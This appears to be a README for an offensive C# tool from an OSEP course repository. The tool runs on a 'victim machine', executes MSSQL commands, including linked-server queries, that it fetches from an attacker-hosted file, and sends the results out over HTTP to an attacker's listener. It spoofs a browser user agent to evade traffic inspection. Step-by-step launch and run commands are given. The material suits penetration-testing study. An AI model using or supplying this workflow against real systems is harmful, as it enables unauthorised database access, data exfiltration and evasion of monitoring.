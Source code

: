 I created this code as an alternative to the methods presented in the OSEP course. This code, when compiled, will login and run commands on an MSSQL DB and then send the results back over http/https(untested) to http-server.py in the Linux section of this repository. The other addition to this is BrowserDetection.cs which is supposed to look for installed web browsers and send a user agent string matching an installed browser. This just adds a bit of plausibility under traffic inspection. I don't know yet how far I'll go with evasion and obfuscation methods here.

### Usage

1. start http-server.py
   
`python3 ../../../OSEP-Code-And-Notes/Linux/Python/http-server.py --port 8000 --log requests.log`

1. Compile and Upload the C# code in this directory to the victim machine
   
3. Create a file with SQL commands one would like to have proccessed. The text file requires the following format:
	1. username (if using Integrated Security just use the string `username`)
	2. password (Integrated Security default this to `password`)
	3. MSSQL host
	4. commands...1 per line

Example command file:
```sql
username
password
mssql01.example.com
master
EXEC sp_linkedservers;
select myuser from openquery("mssql02", 'select SYSTEM_USER as myuser');
```

4. Run the code on the victim's machine: `Program.exe -w http://<address of webserver with command file> -g <command file>`
   
6. `tail` the logfile to find the output in Base64 and if the output is less than 4kb (arbitrary number set by me), there will be a plain text representation.

